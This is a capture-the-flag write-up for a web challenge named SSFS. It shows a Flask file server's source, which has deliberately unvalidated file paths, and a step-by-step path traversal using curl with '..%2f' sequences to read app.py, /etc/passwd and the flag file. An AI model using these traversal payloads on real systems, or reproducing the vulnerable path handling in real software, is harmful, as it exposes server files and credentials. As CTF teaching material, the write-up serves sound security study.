

## SSFS [50 pts]

**Category:** Web
**Solves:** 244

## Description
I made a file server to easily share my files with my friends. Nobody has hacked it yet, so I'm sure it's secure.

ssfs.challs.pwnoh.io 

### Solution

We are given a webpage that we can upload files and also search for existing files and download them.


The source code is also provided:
```python
from flask import Flask, request, render_template, send_file
from uuid import uuid4
import os
import hashlib

app = Flask(__name__)
app.config['MAX_CONTENT_LENGTH'] = 1024 * 1024 # 1MB

file_exts = {}

@app.route('/')
def index():
    return render_template('index.html')

def clear_uploads():
    upload_dir = 'uploads'
    if not os.path.exists(upload_dir):
        os.mkdir(upload_dir)

    files = os.listdir(upload_dir)
    if len(files) > 50:
        for file in files:
            os.remove(os.path.join(upload_dir, file))

@app.route('/upload', methods=['POST'])
def upload():
    file = request.files['file']
    ext = file.filename.split('.')[-1]

    if not file:
        return {'status': 'error', 'message': 'No file uploaded'}
    
    if ext not in ['png', 'jpg', 'jpeg', 'gif', 'bmp', 'webp']:
        return {'status': 'error', 'message': 'Invalid file type'}
    
    clear_uploads()

    file_id = str(uuid4())
    file_exts[file_id] = ext

    os.makedirs('uploads', exist_ok=True)
    
    with open(f'uploads/{file_id}', 'wb') as f:
        f.write(file.read())

    return {'status': 'success', 'message': 'File uploaded successfully', 'id': file_id}

@app.route('/search/<path:file_id>')
def search(file_id):
    print('uploads/' + file_id)
    if not os.path.exists('uploads/' + file_id):
        return {'status': 'error', 'message': 'File not found'}, 404

    return {'status': 'success', 'message': 'File found', 'id': file_id}

def filter_file_id(file_id : str):
    if len(file_id) > 36: # uuid4 length
        return None
    
    return file_id

@app.route('/download/<path:file_id>')
def download(file_id):
    file_id = filter_file_id(file_id)

    if file_id is None:
        return {'status': 'error', 'message': 'Invalid file id'}, 400

    if not os.path.exists('uploads/' + file_id):
        return {'status': 'error', 'message': 'File not found'}, 404
    
    if not os.path.isfile('uploads/' + file_id):
        return {'status': 'error', 'message': 'Invalid file id'}, 400

    return send_file('uploads/' + file_id, download_name=f"{file_id}.{file_exts.get(file_id, 'UNK')}")


if __name__ == '__main__':
    app.run(debug=True)
```

It's just a simple flask application with some routes.
Checking the source we can see there is not much of a validation on `download/<path:file_id>` and `search/<path:file_id>` routes.
The `file_id` is not validated properly and you can send file path on os and try to fetch files from it.

Let's try some tests:
```bash
$ curl "https://ssfs.challs.pwnoh.io/search/app.py"
{"message":"File not found","status":"error"}

$ curl "https://ssfs.challs.pwnoh.io/search/../app.py"
<!doctype html>
<html lang=en>
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>

$ curl "https://ssfs.challs.pwnoh.io/search/..%2fapp.py"
{"id":"../app.py","message":"File found","status":"success"}

```

As you can see we were able to check if file exist on server by using `..%2f` bypassing. 
Now let's see if we can read that file too using `download` route:

```bash
$ curl "https://ssfs.challs.pwnoh.io/download/..%2fapp.py"
from flask import Flask, request, render_template, send_file
from uuid import uuid4
import os
import hashlib

app = Flask(__name__)
app.config['MAX_CONTENT_LENGTH'] = 1024 * 1024 # 1MB

file_exts = {}

@app.route('/')
def index():
    return render_template('index.html')

def clear_uploads():
    upload_dir = 'uploads'
    if not os.path.exists(upload_dir):
        os.mkdir(upload_dir)
.
.
....

```

As you can see we are able to read any file from server.
Let's try to read files from out of scope of application in os:
```bash
$ curl "https://ssfs.challs.pwnoh.io/download/..%2f..%2f..%2f..%2f..%2fetc/passwd"

root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
```

checking Dockerfile:
```
COPY flag.txt /flag.txt
```

We know flag is that `/flag.txt` route. let's try to read it. use `../` to go as many as folders backward to get to the flag.

```bash
$ curl "https://ssfs.challs.pwnoh.io/download/..%2f..%2f..%2f..%2f..%2fflag.txt"
bctf{flaghere}⏎
```
